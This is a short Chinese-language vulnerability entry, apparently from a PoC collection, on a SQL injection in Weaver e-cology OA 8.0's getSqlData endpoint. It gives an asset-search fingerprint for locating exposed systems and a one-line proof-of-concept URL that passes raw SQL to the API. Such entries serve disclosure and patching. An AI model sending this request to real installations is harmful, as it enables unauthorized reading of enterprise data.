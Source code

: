 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746.png)

验证POC

```php
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220331145537127](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220331145537127.png)